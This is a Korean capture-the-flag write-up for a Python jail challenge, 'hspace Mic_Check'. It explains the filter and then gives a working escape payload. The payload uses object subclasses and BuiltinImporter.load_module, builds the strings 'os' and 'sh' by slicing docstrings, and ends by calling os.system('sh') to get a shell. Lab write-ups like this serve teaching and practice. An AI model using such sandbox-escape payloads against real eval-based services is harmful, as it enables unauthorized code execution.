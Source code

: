 # hspace - Mic_Check

### 문제 코드
```python
import string
import sys

code=''
sys.stdout.write("HSpace Mic-check :)\n")
sys.stdout.write("code: ")
sys.stdout.flush()

while True:
  line = sys.stdin.readline()
  if line.startswith("end"):
    break
  code += line
  
allowed = set(string.ascii_lowercase+'()[]: ._\n'+string.digits)

if allowed | set(code) != allowed:
    sys.stdout.write("nono :(\n")
elif len(code) > 0x80:
    sys.stdout.write("too long :(\n")
else:
    compiled = compile(code,"",'exec')
    eval(compiled, {"__builtins__": {}}, {"__builtins__": {}})
```

### 분석
end가 오기전까지 입력받고
소문자, 숫자, ()[]: .\_\\n 이렇게만 사용가능
페이로드 80바이트 초과면 실패
`__builtins__` 네임스페이스를 빈 딕셔너리로 덮어쓰게 만듬
=컴파일 시 파이썬 내장 모듈(`__builtins__`)을 비우게 만듬
=내장 함수와 클래스를 사용하지 못하게 하는 것
### 문제풀이(한별님 풀이)
subclass list 가져옴
`().__class__.__bases__[0].__subclasses__()`

문자열 길이에 제한이 있어,
`<class '_frozen_importlib.BuiltinImporter'>`과 load_module을 이용해 
os.system('sh')을 불러들여 쉘 권한을 먼저 얻고
그 후에 cat flag 등의 작업을 수행

`<class '_frozen_importlib.BuiltinImporter'>`는 파이썬 내장 모듈을 가져오기(import) 위한 내장 모듈 로더(loader) 중 하나
`math`, `sys`, `os`와 같은 모듈들이 내장 모듈에 해당. `BuiltinImporter`는 이러한 내장 모듈을 가져오는 역할을 담당하며, 파이썬 인터프리터가 시작될 때 이미 로드되어 있음

따옴표를 사용할 수 없으므로, 문자열을 직접 __doc__ 의 결과에서 가져옴
```python
print(().__class__.__bases__[0].__subclasses__() [107].__doc__)
"""
Meta path import for built-in modules. All methods are either class or static methods to avoid the need to instantiate the class.
"""
```

os와 sh 문자열을 python의 list slicing 기능을 활용해서 구함

```python
os = [].__doc__[32:49:12] sh = [].__doc__[44:55:10]
```

최종 페이로드
```python
().__class__.__bases__[0].__subclasses__()[107].load_module([].__doc__[32:49:12]).system([].__doc__[44:55:10])

"""
-> <class '_frozen_importlib.BuiltinImporter'>. load_module('os').system("sh")
-> os.system("sh")
"""
```